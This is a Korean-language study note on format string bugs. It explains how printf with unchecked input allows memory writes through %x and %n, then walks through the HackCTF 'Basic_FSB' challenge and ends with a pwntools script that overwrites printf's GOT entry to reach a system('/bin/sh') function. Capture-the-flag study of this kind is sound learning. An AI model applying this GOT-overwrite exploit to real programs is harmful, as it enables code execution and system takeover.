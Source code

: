 # 2. FSB

- 목차

# FSB(Format String Bug)

- **Format String Bug** 는 format을 사용하는 printf()와 같은 함수를 사용할 때 체크되지 않은 유저 입력(unchecked user input, [Improper input validation - Wikipedia](https://en.wikipedia.org/wiki/Improper_input_validation))에 의해 발생하는 취약점이다.
- FSB를 활용한 전형적인 공격방법은 프로세스의 IP(Instruction Pointer)를 임의로 조작하는 것이다. 예를 들어, 라이브러리 함수의 주소를 덮어쓰거나 쉘코드가 저장된 주소로 프로세스 스택의 return address를 조작하는 방법 등이 있다. 이 때, **%x** 를 이용하여 바이트 수를 계산하고, **%n** 을 이용하여 overwrite 한다.
- FSB는 프로그래머가 어떠한 string 값을 출력하고자 할 때 흔히 발생한다. 프로그래머가 아래와 같이 의도하고 코딩을 한다고 가정하자.
    
    > printf(”%s”, buffer);
    > 
- 이 때, 프로그래머가 실수로 아래와 같이 코딩을 한다.
    
    > printf(buffer);
    > 
- 이런 경우 아래 순서를 따라 프로그램은 작동한다.
    1. buffer를 format string 으로 보고, buffer 문자열 안에 format이 있는지 파싱한 뒤 실행한다.
    2. buffer를 그냥 출력한다. (프로그래머의 의도대로)
- 따라서, 프로그래머가 신중을 기하지 않는 경우 버그의 유무를 파악하지 못할 가능성이 있다.

## Practice (w/ “Basic_fsb” by HackCTF, [HackCTF (j0n9hyun.xyz)](https://ctf.j0n9hyun.xyz/challenges#Basic_FSB))

![Untitled](./Untitled.png)

- 바이너리 안의 함수들 중 main, vuln, flag를 각각 확인해보도록 한다.

### main()

![Untitled](./Untitled%201.png)

- main 에서는 다음 과정을 수행한다.
    - setvbuf( **0x804a044**, 0, 2, 0) );
        - 아래 vuln() 함수에서 fgets 의 인자로 **0x804a040**을 넣고, 보통 stdin을 넣는 위치이기 때문에 **0x804a044** 는 **stdout**이라 추론할 수 있다.
    - vuln();

### vuln()

![Untitled](./Untitled%202.png)

- vuln() 에서는 다음의 과정을 수행한다.
    - **printf( *0x80486b0 );**
        - 0x80486b0 의 내용
            
            ![Untitled](./Untitled%203.png)
            
    - **fgets( &(%ebp - 0x808), 0x400, 0x804a040);**
        - main() 함수에서 적은대로 **0x804a040**은 **stdin**이라 추론할 수 있다.
    - **snprintf( &(%ebp - 0x408), 0x400, &(%ebp-0x808) );**
        - 최대 **400byte** 까지 **%ebp-0x408**에 저장한다.
    - **printf( &(%ebp-0x408) );**

### Flag()

- 사실 main(), vuln() 두 함수만으로도 FSB를 일으키는 것은 가능하다.
- 이 함수는 Exploit을 조금 쉽게 행할 수 있도록 shellcode를 제공하는 것으로 보인다.

![Untitled](./Untitled%204.png)

- flag() 에서는 다음의 과정을 수행한다.
    - puts( **0x80486bc** )
        - **0x80486bc** 의 내용
            
            ![Untitled](./Untitled%205.png)
            
    - puts( **0x80486ec** )
        - **0x80486ec** 의 내용
            
            ![Untitled](./Untitled%206.png)
            
    - system( **0x8048718** )
        - **0x8048718** 의 내용은 아래와 같다.
            
            ![Untitled](./Untitled%207.png)
            
        - 따라서, **system( “/bin/sh” )**로써 flag()는 쉘코드로 기능함을 알 수 있다..

### Exploit

- Exploit Code 는 아래의 흐름으로 구성할 수 있다.
    - printf()에 대하여 GOT Overwrite 기법을 활용할 수 있다.
    - 아래의 순서대로 입력값을 정한다.
        - Address of printf@got
            - printf@got 값 : **0x804a00c**
                
                ![Untitled](./Untitled%208.png)
                
        - %[$N$]x
            - [$N$] 은 임의의 $N$바이트
            - 본 문제에서는 flag() 의 주소값에 대하여 값을 정한다.
                - printf()의 got 주소는 4바이트 이므로, flag() 함수의 주소에서 4바이트 만큼 뺀 값이 $N$ 이 된다.
                - Address of flag() : **0x80485b4**
                    
                    ![Untitled](./Untitled%209.png)
                    
        - %n

- python의 pwntool을 이용하여 코드를 아래와 같이 작성할 수 있다.
    
    ```jsx
    from pwn import *
    
    p = process("./basic_fsb")
    
    print_got_address = 0x0804a00c
    flag_address = 0x080485b4
    
    diff = flag_address - 4
    
    payload  = p32(print_got_address)
    payload += bytes('%' + str(diff) + 'x', 'utf-8')
    payload += bytes('%n', 'utf-8')
    
    p.recv(1024)
    p.sendline(payload)
    p.interactive()
    ```
    
    ![Untitled](./Untitled%2010.png)
    

# Reference.

- MOV, LEA 차이
    
    [[MOV] VS [LEA] 차이점 (tistory.com)](https://johyungen.tistory.com/430)
    
- 어셈블리어 ds:[address] 의미
    
    [[꿈머] 리버싱(Reverse Engineering) - [실습] 배열 분석 : 네이버 블로그 (naver.com)](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=shackerz&logNo=220464261071)
    
- Format String Bug(Uncontrolled Format String)
    
    [Uncontrolled format string - Wikipedia](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
